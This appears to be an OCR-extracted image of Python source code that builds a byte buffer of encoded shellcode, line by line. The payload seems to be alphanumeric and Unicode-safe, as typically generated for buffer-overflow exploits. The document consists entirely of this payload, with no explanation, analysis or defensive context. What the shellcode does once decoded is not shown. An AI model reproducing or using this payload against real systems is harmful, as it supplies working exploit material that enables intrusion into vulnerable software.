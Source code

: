 ```python
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x4b\x4c\x47\x78\x44\x4f\x6b\x50"
buf += b"\x39\x70\x39\x70\x6f\x70\x42\x69\x38\x65\x6d\x61"
buf += b"\x69\x42\x42\x44\x64\x4b\x50\x52\x50\x30\x72\x6b"
buf += b"\x32\x32\x4a\x6c\x64\x4b\x72\x32\x6d\x44\x4e\x51"
buf += b"\x59\x6f\x54\x4b\x33\x42\x6d\x58\x6a\x6f\x55\x67"
buf += b"\x4d\x7a\x4f\x36\x70\x31\x45\x70\x66\x4c\x6d\x6c"
buf += b"\x31\x51\x73\x4c\x7a\x62\x6c\x6c\x4f\x30\x57\x51"
buf += b"\x68\x4f\x6a\x6d\x4d\x31\x68\x47\x30\x49\x51\x65"
buf += b"\x38\x6f\x42\x32\x6e\x77\x44\x4b\x52\x32\x6a\x70"
buf += b"\x42\x6b\x30\x42\x6d\x6c\x4a\x61\x56\x70\x32\x6b"
buf += b"\x31\x30\x52\x58\x75\x35\x77\x50\x30\x74\x30\x4c"
buf += b"\x49\x71\x5a\x30\x74\x4b\x6d\x78\x7a\x78\x54\x4b"
buf += b"\x52\x38\x4d\x50\x39\x71\x39\x43\x32\x30\x33\x55"
buf += b"\x35\x79\x50\x74\x6d\x6c\x6d\x61\x69\x6f\x70\x49"
buf += b"\x54\x4b\x6d\x64\x44\x4b\x39\x71\x59\x46\x6c\x71"
buf += b"\x35\x70\x74\x6c\x69\x31\x46\x6f\x6a\x6d\x4d\x31"
buf += b"\x39\x37\x30\x38\x69\x50\x63\x45\x6c\x34\x79\x73"
buf += b"\x43\x4d\x78\x78\x6f\x4b\x31\x6d\x4b\x74\x62\x55"
buf += b"\x67\x70\x4e\x78\x52\x6b\x6e\x78\x4b\x74\x6a\x61"
buf += b"\x4a\x33\x33\x36\x64\x4b\x4c\x4c\x4e\x6b\x74\x4b"
buf += b"\x42\x38\x4d\x4c\x39\x71\x66\x73\x52\x6b\x59\x74"
buf += b"\x62\x6b\x4a\x61\x66\x70\x31\x79\x6f\x54\x6e\x44"
buf += b"\x4c\x64\x51\x4b\x61\x4b\x31\x51\x51\x49\x31\x4a"
buf += b"\x70\x51\x4b\x4f\x39\x50\x4f\x68\x4f\x6f\x50\x5a"
buf += b"\x44\x4b\x6a\x72\x49\x59\x43\x50\x4b\x4f\x39\x6f"
buf += b"\x4b\x4f\x6f\x6d\x32\x48\x6f\x43\x4c\x72\x4d\x30"
buf += b"\x6b\x50\x62\x48\x63\x47\x33\x43\x50\x32\x6f\x6f"
buf += b"\x72\x34\x53\x38\x6e\x6c\x44\x37\x4e\x46\x4d\x37"
buf += b"\x55\x39\x48\x68\x59\x6f\x58\x50\x44\x78\x54\x50"
buf += b"\x6d\x31\x59\x70\x79\x70\x6d\x59\x59\x34\x4e\x74"
buf += b"\x32\x30\x62\x48\x6f\x39\x71\x70\x30\x6b\x49\x70"
buf += b"\x49\x6f\x57\x65\x71\x5a\x6a\x6a\x43\x38\x79\x7a"
buf += b"\x6a\x6a\x6a\x6e\x4c\x47\x4f\x78\x4c\x42\x4d\x30"
buf += b"\x4a\x71\x4f\x6c\x33\x59\x49\x56\x42\x30\x70\x50"
buf += b"\x30\x50\x6e\x70\x4d\x70\x30\x50\x51\x30\x70\x50"
buf += b"\x50\x68\x38\x6a\x4c\x4f\x59\x4f\x6b\x30\x39\x6f"
buf += b"\x69\x45\x34\x57\x62\x4a\x6c\x50\x62\x36\x4f\x67"
buf += b"\x72\x48\x45\x49\x63\x75\x50\x74\x30\x61\x69\x6f"
buf += b"\x59\x45\x74\x45\x65\x70\x44\x34\x79\x7a\x69\x6f"
buf += b"\x70\x4e\x5a\x68\x61\x65\x78\x6c\x78\x68\x43\x37"
buf += b"\x4d\x30\x4b\x50\x79\x70\x30\x6a\x4d\x30\x6f\x7a"
buf += b"\x4a\x64\x72\x36\x42\x37\x61\x58\x6c\x42\x78\x59"
buf += b"\x45\x78\x61\x4f\x6b\x4f\x76\x75\x62\x63\x59\x68"
buf += b"\x4b\x50\x43\x4e\x4d\x66\x32\x6b\x6c\x76\x70\x6a"
buf += b"\x6d\x70\x51\x58\x6d\x30\x6a\x70\x59\x70\x39\x70"
buf += b"\x50\x56\x32\x4a\x59\x70\x32\x48\x30\x58\x44\x64"
buf += b"\x70\x53\x48\x65\x69\x6f\x5a\x35\x45\x43\x72\x33"
buf += b"\x50\x6a\x4d\x30\x52\x36\x52\x33\x50\x57\x62\x48"
buf += b"\x7a\x62\x59\x49\x48\x48\x71\x4f\x69\x6f\x37\x65"
buf += b"\x43\x53\x6c\x38\x49\x70\x63\x4d\x4f\x38\x61\x48"
buf += b"\x43\x38\x39\x70\x71\x30\x4d\x30\x49\x70\x4f\x7a"
buf += b"\x79\x70\x50\x50\x6f\x78\x4c\x4b\x4c\x6f\x4c\x4f"
buf += b"\x4e\x50\x6b\x4f\x78\x55\x70\x57\x70\x68\x63\x45"
```
